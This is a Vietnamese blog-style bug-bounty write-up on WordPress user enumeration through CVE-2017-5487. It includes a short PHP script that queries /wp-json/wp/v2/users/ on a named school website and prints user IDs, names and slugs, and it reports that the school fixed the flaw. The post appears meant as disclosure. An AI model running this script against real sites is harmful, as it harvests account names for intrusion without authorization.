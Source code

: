 ```yaml
---
title: Tiền thưởng Tiết Lộ Người Dùng WordPress (CVE-2017-5487)
date: 25/03/2022
layout: single
header:
  teaser: /assets/images/wordpress.png
---
```


## Mô Tả

Tiết lộ các tài khoản WordPress thông qua `/wp-json/wp/v2/users/` sử dụng php để dump tên tài khoản, và họ tên đăng bài

Việc tiết lộ thông tin nhạy cảm cho CVE-2017-5487

wp-gồm/rest-api/endpoints/class-wp-rest-users-controller.php trong quá trình triển khai API REST trong WordPress 4.7 trước 4.7.1 , điều này cho phép kẻ tấn công từ xa lấy được thông tin nhạy cảm thông qua yêu cầu wp-json/wp/v2/users.

Mức độ lỗ hổng: 5,3 TRUNG BÌNH

## Hướng dẫn

Thay đổi url trong đoạn code dưới đây

```shell
php file.php
```

[![Language](https://img.shields.io/badge/Lang-php-blue.svg)](https://www.php.net/)

```php
#!usr/bin/php
<?php
header ('Content-type: text/html; charset=UTF-8');


$url= "https://namsaigon.edu.vn/"; # url
$payload="/wp-json/wp/v2/users/";
$urli = file_get_contents($url.$payload);
$json = json_decode($urli, true);
if($json){
    echo "*-----------------------------*\n";
foreach($json as $users){
    echo "[*] ID :  |" .$users['id']     ."|\n";
    echo "[*] Name: |" .$users['name']   ."|\n";
    echo "[*] User :|" .$users['slug']   ."|\n";
    echo "\n";
}echo "*-----------------------------*";}
else{echo "[*] No user";}


?>

```

![](https://www8.0zz0.com/2021/07/15/15/128822449.jpg)

## Kết quả

Lỗ hổng đã được xác nhận qua mail của trường và đã được Fix

![](https://www5.0zz0.com/2023/03/15/10/222638956.png)
